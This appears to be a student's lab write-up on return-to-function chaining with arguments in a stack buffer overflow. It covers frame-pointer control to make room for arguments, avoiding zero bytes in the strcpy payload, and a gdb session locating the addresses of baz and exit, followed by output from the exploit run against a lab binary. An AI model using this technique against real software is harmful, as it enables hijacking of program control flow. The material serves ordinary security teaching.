 

## Example 2 --- Returning to Function (WITH Args)

> _**Observation 5.2:**_
> _Assume a function A()'s return address field contains the address of the code that is right after B()'s function prologue;_  
> _also assume the frame pointer of function A() points to address X._
> _After the program returns to function B() from function A(), the frame pointer will point to address Y,_
> _where Y is the value stored at address X._

**key takeaway 1:**
We control the value "Y", so use that to make space on the stack for arguments.
In the textbook experiments, they let Y-X = 0x20 = 32.
NOTE: values should still not contain any 0 bytes, which would cause strcpy prematurely stop copying the payload.

**key takeaway 2:**
The function prologue (two instructions) takes up 3 bytes.
When calculating the address within a function JUST AFTER the function prologue, we simply need to add 3 to the function's address.

```bash
$ gdb -q stack_rop
Reading symbols from stack_rop...(no debugging symbols found)...done.
gdb-peda$ b foo
gdb-peda$ r
gdb-peda$ p baz
$1 = {<text variable, no debug info>} 0x80485ae <baz>
gdb-peda$ disas baz
Dump of assembler code for function baz:
   0x080485ae <+0>:	push   %ebp
   0x080485af <+1>:	mov    %esp,%ebp
   0x080485b1 <+3>:	sub    $0x8,%esp
gdb-peda$ p exit
$2 = {<text variable, no debug info>} 0xb7e369d0 <__GI_exit>
gdb-peda$ q
```
Update `chain_witharg.py` with the above addresses, then run:  
```bash
chain_witharg.py && stack_rop
# Address of buffer[]:  0xbfffead8
# Frame Pointer value:  0xbfffeb48
# Diff between buffer & frame pointer = 112
# The value of baz()'s argument: 0xAABBCCDD
# The value of baz()'s argument: 0xAABBCCDD
# The value of baz()'s argument: 0xAABBCCDD
# The value of baz()'s argument: 0xAABBCCDD
# The value of baz()'s argument: 0xAABBCCDD
# The value of baz()'s argument: 0xAABBCCDD
# The value of baz()'s argument: 0xAABBCCDD
# The value of baz()'s argument: 0xAABBCCDD
# The value of baz()'s argument: 0xAABBCCDD
# The value of baz()'s argument: 0xAABBCCDD
```
